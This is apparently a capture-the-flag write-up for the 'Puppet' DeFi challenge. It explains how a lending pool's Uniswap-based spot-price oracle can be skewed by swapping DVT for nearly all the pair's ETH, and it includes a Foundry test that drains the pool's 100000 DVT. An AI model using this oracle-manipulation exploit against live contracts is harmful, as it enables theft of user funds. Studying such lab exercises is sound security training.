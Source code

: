 ## Puppet solution

The goal is to steal 100000 DVT tokens from the pool. There is a `borrow` function which lets anybody borrow tokens, although it is assumed that borrower first has to provide a collateral in ETH of twice of the borrow amount.
The pool uses UniswapPair as an oracle, fetching a relative price of the token in ETH, then multiply that price by the `amount` to borrow and the `DEPOSIT_FACTOR`. The relative price calculations are as follows: p(x) = y / x, where x==DVT and y==ETH, and the starting ratio is 1:1
```
function _computeOraclePrice() private view returns (uint256) {
        // calculates the price of the token in wei according to Uniswap pair
        return uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
    }
```
Understanding that makes it very easy to manipulate the prices. We simply need to decrease the ETH balance of the pair and increase the token balance, which in result will break the abovementioned assumption that the borrower first needs to deposit twice the borrow amount in ETH as collateral. It can be done by swapping DVT for almost all available ETH in the pair.

```
    function testExploit() public {
        vm.startPrank(attacker);
        dvt.approve(address(uniswapV1Exchange), ATTACKER_INITIAL_TOKEN_BALANCE);
        // Swap DVT for almost all ETH in the Exchange
        uniswapV1Exchange.tokenToEthSwapInput(
            ATTACKER_INITIAL_TOKEN_BALANCE,
            9e18,
            DEADLINE
        );

        uint256 depositRequired = pool.calculateDepositRequired(
            POOL_INIITTIAL_TOKEB_BALANCE
        );

        pool.borrow{value: depositRequired}(
            POOL_INIITTIAL_TOKEB_BALANCE,
            attacker
        );
        validation();
    }
    
    function validation() public {
        // Attacker has taken all tokens from the pool
        assertGe(dvt.balanceOf(attacker), POOL_INIITTIAL_TOKEB_BALANCE);
        assertEq(dvt.balanceOf(address(pool)), 0);
    }
```